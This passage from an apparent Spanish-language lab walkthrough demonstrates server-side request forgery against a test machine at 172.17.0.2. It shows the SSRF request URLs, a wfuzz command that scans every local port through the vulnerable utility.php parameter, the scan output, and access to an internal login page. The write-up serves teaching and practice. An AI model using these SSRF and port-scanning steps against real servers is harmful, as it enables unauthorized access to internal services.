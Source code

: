 Acción:  

```Shell
python3 -m http.server 4646 --bind 127.0.0.1
```

Explicación: con esta configuración solo podemos acceder al servicio de preproducción desde la propia máquina que corre dicho servicio, por lo que no es accesible ni visible desde fuera. Aquí empieza el ejemplo de SSRF


## Paso 12 -

Acción: 

```url
http://172.17.0.2/utility.php?url=http://127.0.0.1
```


Explicación: desde fuera no podemos acceder al servicio de PRE, pero como es la propia máquina la que se apunta a si misma si podemos verlo, es decir, desde la url estamos apuntando a una direción interna del propio servidor. La clave esta es saber por que peurto esta corriendo dicho servicio PRE, para ello aplicamos fuzzing con WFUZZ

## Paso 13 -

Acción: 

```Shell
wfuzz -c -t 100 --hl=3 -z range,1-65535 "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"
```

Resultado:

```Shell
000000080:   200        20 L     77 W       1207 Ch     "80"                                                                                  
000004646:   200        19 L     35 W       336 Ch      "4646"
```

Explicación: vemos que tenemos dos puertos operativos, el 80 es el de PRO que ya teniamos acceso y era visible por ejemplo con nmap, pero ahora vemos el 4646, por lo que podemos tratar de acceder a este entorno


## Paso 14 -

Acción: 

```url
http://172.17.0.2/utility.php?url=http://127.0.0.1:4646/login.html
```


Explicación: de este modo, apuntando directamente al recurso que vemos en `http://172.17.0.2/utility.php?url=http://127.0.0.1:4646` podemos acceder al entorno de PRE

---
